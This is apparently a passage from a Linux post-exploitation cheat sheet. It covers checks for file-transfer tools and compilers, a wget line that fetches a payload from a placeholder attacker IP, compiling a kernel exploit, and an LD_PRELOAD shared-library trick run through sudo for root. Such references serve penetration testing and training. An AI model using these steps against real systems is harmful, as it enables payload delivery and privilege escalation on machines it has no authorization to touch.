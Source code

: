 ## File Transfer Capabilities

Test available tools for file transfer:

```bash
which wget
which curl
which nc
which ncat
which nc.traditional
which socat
which fetch
ls -lsaht /bin/ | grep -i 'ftp' --color=auto
```

Example with `wget`:
```bash
wget http://<ATTACKER_IP>/payload
```

## Compilation and Exploit Development

### Check Compilation Tools

Verify available compilers:

```bash
which gcc
which cc
which python
which perl
```

### System Architecture

Determine binary architecture:

```bash
file /bin/bash
```

### Compile Exploits

Compile a kernel exploit:

```bash
gcc kernel_exploit.c -o kernel_exploit
```

### Shared Libraries

Create a malicious shared library for LD_PRELOAD:

```bash
gcc src.c -fPIC -shared -o /tmp/root.so
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

